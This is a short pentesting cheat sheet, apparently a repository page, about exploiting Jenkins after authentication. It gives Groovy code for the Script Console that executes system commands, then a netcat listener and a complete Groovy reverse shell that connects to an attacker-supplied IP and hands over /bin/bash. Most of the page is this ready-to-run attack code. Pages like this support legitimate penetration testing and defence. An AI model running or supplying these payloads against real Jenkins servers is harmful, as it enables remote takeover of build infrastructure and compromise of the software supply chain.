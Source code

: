 What is Jenkins ?

Jenkins is a tool that offers a straightforward method for establishing a continuous integration or continuous delivery (CI/CD) environment for almost any combination of programming languages and source code repositories using pipelines. Furthermore, it automates various routine development tasks. While Jenkins doesn't eliminate the need to create scripts for individual steps, it does provide a faster and more robust way to integrate the entire sequence of build, test, and deployment tools than one can easily construct manually. [(source)](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security)

Groomy script exploitation: (need to be authenticated)
- Go to Manage Jenkins -> Script Console
- For command execution:
```
def proc = "ls".execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);
println(os.toString());
```
- For reverse shell:
On my machine:
```
nc -lvnp 4242
```
On jenkins:
```
String host="<my ip>";
int port=4242;
String cmd="/bin/bash"; # would be cmd.exe for Windows
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
## Resources

[Github Repo on Jenkins exploits](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security)